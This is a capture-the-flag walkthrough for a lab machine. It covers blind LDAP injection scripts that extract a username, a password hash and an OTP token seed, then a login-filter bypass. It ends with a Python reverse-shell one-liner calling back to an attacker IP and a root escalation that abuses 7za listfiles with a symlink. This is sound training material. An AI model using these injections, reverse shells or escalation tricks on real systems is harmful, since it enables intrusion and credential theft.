


## PART 1 : Initial Recon

```console
nmap --min-rate 700 -p- -v 10.10.10.122
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```console
nmap -oN ctf.nmap -p22,80 -sC -sV -v 10.10.10.122
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ad:f7:cb:dc:42:1e:43:7d:b3:d5:8b:ce:63:b9:0e (RSA)
|   256 3d:ef:34:5c:e5:17:5e:06:d7:a4:c8:86:ca:e2:df:fb (ECDSA)
|_  256 4c:46:e2:16:8a:14:f6:f0:aa:39:6c:97:46:db:b4:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: CTF
```

---

## PART 2 : Port Enumeration

1. Visit http://10.10.10.122
   - Landing Page:
     
     

     __NOTE(S)__:
     - The site is protected against bruteforcing
     - Automated tools are not an efficient option

   - __*/login.php*__:

     
       
     - Page Source:
       ```html
       ...
       <form action="/login.php" method="post">
         <div class="form-group row">
           <div class="col-sm-10">
           </div>
         </div>
         <div class="form-group row">
           <label for="inputUsername" class="col-sm-2 col-form-label">Username</label>
           <div class="col-sm-10">
             <input type="text" class="form-control" id="inputUsename" name="inputUsername" placeholder="Username">
           </div>
         </div>
         <div class="form-group row">
           <label for="inputOTP" class="col-sm-2 col-form-label">OTP</label>
           <div class="col-sm-10">
             <input type="OTP" class="form-control" id="inputOTP" name="inputOTP" placeholder="One Time Password">
             <!-- we'll change the schema in the next phase of the project (if and only if we will pass the VA/PT) -->
             <!-- at the moment we have choosen an already existing attribute in order to store the token string (81 digits) -->
           </div>
         </div>
         <div class="form-group row">
           <div class="col-sm-10">
             <button type="submit" class="btn btn-primary  name=" submit"="" value="Login">Login</button>
           </div>
         </div>
       </form>
       ...
       ```
     __NOTE(S)__:
     - An error message pops up when guessing the `Username` input:
       - REQUEST: `inputUsername=test`
       - RESPONSE: `<div class="col-sm-10">User test not found</div>`
     - Maybe `submit"="` is a clue for possible injection
       - REQUEST: `inputUsername=%3D`
       - No error message popped up 
     - `!`, `&`, `*`, `(`, `)`, `\`, `|`, `<`, and `>` also doesn't return an error message
       - These are special characters in LDAP
       - Maybe these characters are being filtered out by __/login.php__
     - A __token string__ for the `OTP` is stored in a pre-existing attribute

2. Attempt exploitation using [__LDAP Injection__](https://www.owasp.org/index.php/LDAP_injection):
   1. Try URL encoding the __*special characters*__:
      - REQUEST: `inputUsername=%2A`
      - RESPONSE: `<div class="col-sm-10">Cannot login</div>`

      __NOTE(S)__:
      - `%2A` is a wildcard (`*`) operator in hex
      - The error message, `Cannot login`, could mean it's a "valid" username
      - URL encoded __special characters__ are not being filtered out

   2. Extract an actual username:
      ```py
      import requests as r
      import urllib.parse as u

      username = ""
      char_list = "abcdefghijklmnopqrstuvwxyz0123456789"
      while True:
          for i in range(0, len(char_list)):
              
              ldap_injection = "%s%c*" % (username, char_list[i])
              data = { "inputUsername": u.quote(ldap_injection) }
              req = r.post("http://10.10.10.122/login.php", data=data)

              if "Cannot login" in req.text:
                  username = username + char_list[i]
                  print(username)
                  break
              
          if i == len(char_list) - 1 : break

      print("[x] THE USERNAME IS " + username)
      ```
      - Run using `python3`:
        ```
        l
        ld
        lda
        ldap
        ldapu
        ldapus
        ldapuse
        ldapuser
        [x] THE USERNAME IS ldapuser
        ```
      __NOTE(S)__:
      - __Blind__ injection has yielded a result
      - An actual username has been extracted -- `ldapuser`

   3. Find available LDAP attributes:
      ```py
      import requests as r
      import urllib.parse as u

      attribute_list = open("/usr/share/wordlists/ldap_attribute_names.txt", "r")

      attributes = []
      for i in attribute_list:
              
          ldap_injection = "ldapuser))(&(%s=*" % (i[:-1])
          
          data = { "inputUsername": u.quote(ldap_injection) }
          req = r.post("http://10.10.10.122/login.php", data=data)

          if "Cannot login" in req.text:
              print(ldap_injection)
              attributes.append(i[:-1])

      attribute_list.close() 
      ```
      - Run using `python3`:
        ```
        ldapuser))(&(cn=*
        ldapuser))(&(commonName=*
        ldapuser))(&(gidNumber=*
        ldapuser))(&(homeDirectory=*
        ldapuser))(&(loginShell=*
        ldapuser))(&(mail=*
        ldapuser))(&(name=*
        ldapuser))(&(objectClass=*
        ldapuser))(&(pager=*
        ldapuser))(&(shadowLastChange=*
        ldapuser))(&(shadowMax=*
        ldapuser))(&(shadowMin=*
        ldapuser))(&(shadowWarning=*
        ldapuser))(&(sn=*
        ldapuser))(&(surname=*
        ldapuser))(&(uid=*
        ldapuser))(&(uidNumber=*
        ldapuser))(&(userPassword=*
        ```
      __NOTE(S)__:
      - `ldap_attribute_list.txt` was copied from [ldap-brute from GitHub](https://github.com/droope/ldap-brute/blob/master/wordlists/attribute_names)
      - `userPassword`, `pager`, and `objectClass` might be of interest

   4. Find the attribute with the __token string__:
      - `userPassword`:
        ```py
        import requests as r
        import urllib.parse as u

        token = ""
        while True:

          if len(token) % 3 == 0 :
              attribute_value = bytes.fromhex(str(token.replace("\\", ""))).decode('utf-8')
              print(attribute_value)
              token += "\\"
              
              if len(attribute_value[19:])==86: break
        
          for x in range(15,-1,-1):

              if len(attribute_value[19:])==85 and len(token) % 3 == 2 :
                  if x==0: token = token + "0"

              payload = "ldapuser))(&(uid=ldapuser)(userPassword:2.5.13.18:="
              ldap_injection = payload + "%s%cf" % (token, hex(x)[-1])

              if ldap_injection[-3:] == "0ff":
                  hex_val = "0x" + ldap_injection[-6:-4]
                  token = token[:-4] + hex(int(hex_val, 16) + 1)[-2:] + "\\"
                  ldap_injection = payload + "%s%cf" % (token, hex(x)[-1])
          
              data = { "inputUsername": u.quote(ldap_injection) }
              req = r.post("http://10.10.10.122/login.php", data=data)

              if x==0 and len(token) % 3 == 2 : token = token[:-1] + str(int(token[-1]) - 1) + "0"
              elif "Cannot login" not in req.text:
                  if len(token) % 3 == 2 : token = token + hex(x)[-1]
                  else: token = token + hex(x+1)[-1]
                  break
        ```
        - Run using `python3`:
          ```
          {
          {c
          {cr
          {cry
          {cryp
          {crypt
          {crypt|
          {crypt}#
          {crypt}$5
          ...
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G-
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.
          ...
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi23
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi245
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi246
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi2460
          ```
        __NOTE(S)__:
        - The `userPassword` attribute is a bit special:
          - According to Microsoft, `userPassword` has an [Object(Replica-Link) syntax](https://docs.microsoft.com/en-us/windows/desktop/adschema/a-unixuserpassword)
          - [Object(Replica-Link)](https://ldapwiki.com/wiki/Replica%20Link) has an OID 2.5.5.10 which is an __Octet String__
          - __Octet Strings__ has a different set of [operations](https://ldap.com/matching-rules/):
            ```
            Octet string matching rules are very simple rules that perform byte-by-byte comparisons of octet string 
            values. All capitalization and spacing is considered significant. 
            ```
          - `ldapuser))(&(uid=ldapuser)(userPassword:2.5.13.18:=`
            ```
            octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit 
            comparison (in big endian ordering) of two octet string values until a difference is found. The first 
            case in which a zero bit is found in one value but a one bit is found in another will cause the value 
            with the zero bit to be considered less than the value with the one bit. 
            ```
          - This means that a simple wildcard (`*`) comparison won't do
        - A __sha512crypt__ hash was extracted -- `{crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi2460`
        - This seems to be a __RABBIT HOLE__
      
      - `pager`
        ```py
        import requests as r
        import urllib.parse as u

        token = ""
        while( len(token)!=81 ):
            for i in range(0,10):

                ldap_injection = "ldapuser))(&(pager=%s%d*" % (token, i)
                data = { "inputUsername": u.quote(ldap_injection) }
                req = r.post("http://10.10.10.122/login.php", data=data)

                if "Cannot login" in req.text:
                    token = token + str(i)
                    print(token)
                    break

        print("[x] THE TOKEN IS " + token)
        ```
        - Run using `python3`:
          ```
          2
          28
          285
          2854
          28544
          285449
          2854494
          28544949
          285449490
          2854494900
          ...
          28544949001135715653165154565233557071316741144572714
          285449490011357156531651545652335570713167411445727140
          2854494900113571565316515456523355707131674114457271406
          28544949001135715653165154565233557071316741144572714060
          285449490011357156531651545652335570713167411445727140604
          2854494900113571565316515456523355707131674114457271406041
          ...
          28544949001135715653165154565233557071316741144572714060417214145671110271671700
          285449490011357156531651545652335570713167411445727140604172141456711102716717000
          [x] THE TOKEN IS 285449490011357156531651545652335570713167411445727140604172141456711102716717000
          ```
        __NOTE(S)__:
        - The `pager` attribute seems to contain the __token string__
        - The token string is `285449490011357156531651545652335570713167411445727140604172141456711102716717000`
        - This token is called a __*Pure Numeric CTF (Compressed Token Format) string*__

3. Login using the information found:
   1. Generate an OTP using the token string:
      ```sh
      stoken import --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000
      # Enter new password: 
      # Confirm new password: 

      stoken tokencode
      # Enter PIN:
      # PIN must be 4-8 digits.  Use '0000' for no PIN.
      # Enter PIN: 0000
      # 83502926
      ```
      __NOTE(S)__:
      - `stoken` can be used to generate OTPs based on a token string
      - OTPs expire over a brief period of time
      - [Click here to view the manual for the `stoken` command](https://manpages.debian.org/testing/stoken/stoken.1.en.html)

   2. Login using the credentials found/generated (__ldapuser__:__83502926__)
      
      - Landing Page: __*/page.php*__

        

        - Page Source:
          ```html
          ...
          <form action="/page.php" method="post" >
            <div class="form-group row">
              <div class="col-sm-12">
                  </div>
            </div>
            <div class="form-group row">
              <label for="inputCmd" class="col-sm-2 col-form-label">Cmd</label>
              <div class="col-sm-10">
                <input type="text" class="form-control" id="inputCmd" name="inputCmd" placeholder="Command to issue">
              </div>
            </div>
            <div class="form-group row">
              <label for="inputOTP" class="col-sm-2 col-form-label">OTP</label>
              <div class="col-sm-10">
                <input type="OTP" class="form-control" id="inputOTP" name="inputOTP" placeholder="One Time Password">
                <!-- we'll change the schema in the next phase of the project (if and only if we will pass the VA/PT) -->
              </div>
            </div>
            <div class="form-group row">
              <div class="col-sm-10">
                <button type="submit" class="btn btn-primary  name="submit" value="Submit">Submit</button>
              </div>
            </div>
          </form>
          ...
          ```
        __NOTE(S)__:
        - An error message pops up when fuzzing the `inputCmd`'s input:
          - REQUEST: `inputCmd=test`
          - RESPONSE: `<div class="col-sm-10">User must be member of root or adm group and have a registered token to issue commands on this server</div>`
        - There was a `gidNumber` attribute when I was bruteforcing used attributes.
          - `root` and `adm` has group numbers __0__ and __4__ respectively
          - Maybe `ldapuser`'s group number could be added to the check done by __*/page.php*__
          - Maybe the group restriction could be bypassed by passing an LDAP injection as a username.

   3. Login again with an injected LDAP payload:
      - Credentials for __*/login.php*__:

        USERNAME | PASSWORD
        --- | ---
        ldapuser%29%29%28%7C%28gidNumber%3A2.5.13.14%3A%3D1000 | Generate an OTP using `stoken`

        __NOTE(S)__:
        - PLAINTEXT: `ldapuser))(|(gidNumber:2.5.13.14:=1000`
        - system users have group numbers __*starting*__ from __1000__
          - Run using `python3`:
            ```py
            import requests as r
            import urllib.parse as u

            for i in range(1000, 1050):
                ldap_injection = "ldapuser))(|(gidNumber:2.5.13.14:=%d" % (i)
                data = { "inputUsername": u.quote(ldap_injection) }
                req = r.post("http://10.10.10.122/login.php", data=data)

                if "Cannot login" in req.text: break

            print("[x] ldapuser's gidNumber : " + str(i))
            ```
          - `[x] ldapuser's gidNumber : 1000`
        - An OR statement to include `ldapuser`'s group number to the check was added
        - `gidNumber:2.5.13.14:=1000`
          - According to Microsoft, `gidNumber` has an [Enumeration Syntax](https://docs.microsoft.com/en-us/windows/desktop/adschema/s-enumeration)
          - __Enumeration__ has the ability to use [Matching Rules](https://ldap.com/matching-rules/)
            ```
            Integer Matching
            ...
            integerMatch (OID 2.5.13.14): An equality matching rule that will consider two integer values 
            equivalent if they represent the same number.
            ```
        - __*The group restriction no longer applies*__

---

## PART 3 : Generate User Shell

1. Generate a reverse shell:
   - Local terminal:
     ```console
     nc -lvp 4444
     ```
   - __/page.php__:
     
     inputCmd | inputOTP
     --- | ---
     `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.12.62",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Generate an OTP using `stoken`

   - While inside the shell:
     ```sh
     id
     # uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # ldapuser:x:1000:1000::/home/ldapuser:/bin/bash

     ls -lah
     # ...
     # -rw-r-----. 1 root   apache 5.0K Oct 23  2018 login.php
     # -rw-r-----. 1 root   apache   68 Oct 23  2018 logout.php
     # -rw-r-----. 1 root   apache 5.2K Oct 23  2018 page.php
     # ...

     cat login.php
     # ...
     # $username = 'ldapuser';
     # $password = 'e398e27d5c4ad45086fe431120932a01';
     # ...
     ```

2. Login as `ldapuser` via `ssh`:
   ```console
   ssh -l ldapuser 10.10.10.122
   ldapuser@10.10.10.122's password: e398e27d5c4ad45086fe431120932a01
   ```
   - `ldapuser` shell:
     ```sh
     id
     # uid=1000(ldapuser) gid=1000(ldapuser) groups=1000(ldapuser) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

     cat user.txt
     # 74a8e86f3f6ecd8010a660cfb44ee585
     ```

---

## PART 4 : Privilege Escalation (ldapuser -> root)

1. Enumerate the system using `ldapuser` shell:
   ```sh
   ls -lah /
   # ...
   # drwxr-xr-x.   2 root root 4.0K Jun 18 20:16 backup
   # ...

   ls -lah /backup
   # ...
   # -rw-r--r--.  1 root root   32 Jun 18 20:13 backup.1560881581.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:14 backup.1560881641.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:15 backup.1560881701.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:16 backup.1560881761.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:17 backup.1560881821.zip
   # -rw-r--r--.  1 root root    0 Jun 18 20:17 error.log
   # -rwxr--r--.  1 root root  975 Oct 23  2018 honeypot.sh
   ```
   __NOTE(S)__:
   - There is a script named `honeypot.sh`
   - __backup__ files seem to be generated every minute

2. Check what `honeypot.sh` does:
   ```sh
   # get banned ips from fail2ban jails and update banned.txt
   # banned ips directily via firewalld permanet rules are **not** included in the list (they get kicked for only 10 seconds)
   /usr/sbin/ipset list | grep fail2ban -A 7 | grep -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | sort -u > /var/www/html/banned.txt
   # awk '$1=$1' ORS='<br>' /var/www/html/banned.txt > /var/www/html/testfile.tmp && mv /var/www/html/testfile.tmp /var/www/html/banned.txt

   # some vars in order to be sure that backups are protected
   now=$(date +"%s")
   filename="backup.$now"
   pass=$(openssl passwd -1 -salt 0xEA31 -in /root/root.txt | md5sum | awk '{print $1}')

   # keep only last 10 backups
   cd /backup
   ls -1t *.zip | tail -n +11 | xargs rm -f

   # get the files from the honeypot and backup 'em all
   cd /var/www/html/uploads
   7za a /backup/$filename.zip -t7z -snl -p$pass -- * 

   # cleaup the honeypot
   rm -rf -- *

   # comment the next line to get errors for debugging
   truncate -s 0 /backup/error.log
   ```
   __NOTE(S)__:
   - `ls -1t *.zip | tail -n +11 | xargs rm -f`
     - Keeps a maximum of 10 most recent backups in `/backup`
   - `7za a /backup/$filename.zip -t7z -snl -p$pass -- *`
     - Backs everything up in `/var/www/html/uploads`
     - The backups are password-protected
       - Running [`pspy`]() doesn't show when `7za` is called
       - The password might never be known to attackers
     - The `--` switch protects `7za` from __wildcard injection__
   - `rm -rf -- *`
     - Everything in `/var/www/html/uploads` are deleted after backup
   - `truncate -s 0 /backup/error.log`
     - Errors generated (maybe) are deleted after everything

3. Leverage `honeypot.sh`:
   1. Check what `7za` can do:
      ```sh
      7za --help
      # ...
      # Usage: 7za <command> [<switches>...] <archive_name> [<file_names>...] [<@listfiles...>]
      # ...
      # <Switches>
      #   -- : Stop switches parsing
      # ...
      #   -snl : store symbolic links as links
      # ...
      #   -t{Type} : Set type of archive
      # ...
      ```
      __NOTE(S)__:
      - All switches after `--` will be ignored
        - __wildcard injection__ is no longer a viable option
      - But, `[<@listfiles...>]` could still be controlled
        - `@` references to a `listfile`
        - A `listfile` contains one file per line
        - Using absolute paths are helpful
      - `7za` will archive the files in the `listfile`

   2. Leverage `7za`'s `[<@listfiles...>]`:
      1. Write to the `/var/www/html/uploads` directory:
         ```sh
         cd /var/www/html/uploads

         ls -la
         # ls: cannot open directory .: Permission denied

         ls -lah ../
         # ...
         # drwxr-x--x. 2 apache apache    6 Oct 23  2018 uploads
         ```
         __NOTE(S)__:
         - The reverse shell from earlier has a user `apache`
         - The permissions could be changed using __/page.php__

      2. Change `/var/.../uploads`'s permissions using __/page.php__:
         
         inputCmd | inputOTP
         --- | ---
         `chmod 777 /var/www/html/uploads` | Generate an OTP using `stoken`

      3. Create __*relevant*__ files:
         ```sh
         cd /var/www/html/uploads

         touch @list

         ln -s /root/root.txt list

         ls -lah
         # drwxrwxrwx. 2 apache   apache    31 Jun 18 21:42 .
         # drwxr-xr-x. 6 root     root     176 Oct 23  2018 ..
         # lrwxrwxrwx. 1 ldapuser ldapuser  14 Jun 18 21:42 list -> /root/root.txt
         # -rw-rw-r--. 1 ldapuser ldapuser   0 Jun 18 21:42 @list
         ```
         __NOTE(S)__:
         - Since `list` is not a valid __*listfile*__, an error will be thrown
         - Attempt to capture `/backup/error.log` before contents are __*truncated*__ by `honeypot.sh`

      4. Capture contents of `/backup/error.log`:
         ```sh
         while ! [ -s /backup/error.log ]; do : ; done; cat /backup/error.log
         #
         # WARNING: No more files
         # fd6d2e53c995e6928cd0f040c79ba053
         #
         ```